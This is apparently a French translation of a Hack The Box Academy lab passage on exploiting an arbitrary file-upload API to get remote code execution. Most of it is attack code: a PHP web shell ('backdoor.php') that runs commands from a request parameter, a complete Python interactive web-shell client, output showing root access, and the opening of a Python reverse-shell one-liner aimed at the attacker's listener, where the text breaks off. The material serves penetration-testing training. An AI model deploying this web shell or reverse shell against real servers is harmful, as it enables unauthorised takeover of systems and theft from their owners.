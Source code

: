 Upload arbitraire de fichiers
=====================================

* * * * *

L'Upload de fichiers arbitraires font partie des vulnérabilités les plus critiques. Ces failles permettent aux attaquants de télécharger des fichiers malveillants, d'exécuter des commandes arbitraires sur le serveur principal et même de prendre le contrôle de l'ensemble du serveur. Les vulnérabilités de téléchargement de fichiers arbitraires affectent aussi bien les applications Web que les API.

* * * * *

Upload de fichiers PHP via API vers RCE
-----------------------------------------------

Allez à la fin de cette section et cliquez sur `Click here to spawn the target system!`ou sur l' `Reset Target`icône . Utilisez la Pwnbox fournie ou une machine virtuelle locale avec la clé VPN fournie pour atteindre l'application cible et suivez-la.

Supposons que nous évaluons une application résidant dans `http://<TARGET IP>:3001`.

Lorsque nous parcourons l'application, une fonctionnalité de téléchargement de fichiers anonymes ressort. ![image](https://academy.hackthebox.com/storage/modules/160/2.png)

Créons le fichier ci-dessous (enregistrez-le sous `backdoor.php`) et essayez de le télécharger via la fonctionnalité disponible.

Code : php

```
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>

```

Ce qui précède nous permet d'ajouter le paramètre *cmd* à notre requête (à backdoor.php), qui sera exécutée à l'aide de *shell_exec()* . C'est si nous pouvons déterminer l'emplacement de *backdoor.php* , si *backdoor.php* sera rendu avec succès et si aucune restriction de fonction PHP n'existe.

![image](https://academy.hackthebox.com/storage/modules/160/4.png)

-   *backdoor.php* a été téléchargé avec succès via une requête POST vers `/api/upload/`. Une API semble gérer la fonctionnalité de téléchargement de fichiers de l'application.
-   Le type de contenu a été automatiquement défini sur `application/x-php`, ce qui signifie qu'aucune protection n'est en place. Le type de contenu serait probablement défini sur `application/octet-stream`ou `text/plain`s'il y en avait un.
-   Le téléchargement d'un fichier avec une extension *.php* est également autorisé. S'il y avait une limitation sur les extensions, nous pourrions essayer des extensions telles que `.jpg.php`, `.PHP`, etc.
-   Utiliser quelque chose comme [file_get_contents()](https://www.php.net/manual/en/function.file-get-contents.php) pour identifier le code php en cours de téléchargement ne semble pas non plus en place.
-   Nous recevons également l'emplacement où notre fichier est stocké, `http://<TARGET IP>:3001/uploads/backdoor.php`.

Nous pouvons utiliser le script Python ci-dessous (enregistrez-le sous `web_shell.py`) pour obtenir un shell, en tirant parti du `backdoor.php`fichier téléchargé.

Code : Python

```
import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
    parser.print_help() # shows help menu
elif args.target and args.payload: # elif (if they both have values do some action)
    print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
    os.system("clear") # clear the screen (linux)
    while True: # starts a while loop (never ending loop)
        try: # try statement
            cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
            print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
            time.sleep(0.3) # waits 0.3 seconds during each request
        except requests.exceptions.InvalidSchema: # error handling
            print("Invalid URL Schema: http:// or https://")
        except requests.exceptions.ConnectionError: # error handling
            print("URL is invalid")

```

Utilisez le script comme suit.

```
dsgsec@htb[/htb]$ python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
$ id
uid=0(root) gid=0(root) groups=0(root)

```

Pour obtenir un shell plus fonctionnel (inverse), exécutez ce qui suit à l'intérieur du shell obtenu via le script Python ci-dessus. Assurez-vous qu'un écouteur actif (tel que Netcat) est en place avant d'exécuter ce qui suit.

```
dsgsec@htb[/htb]$ python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<VPN/TUN Adap
```
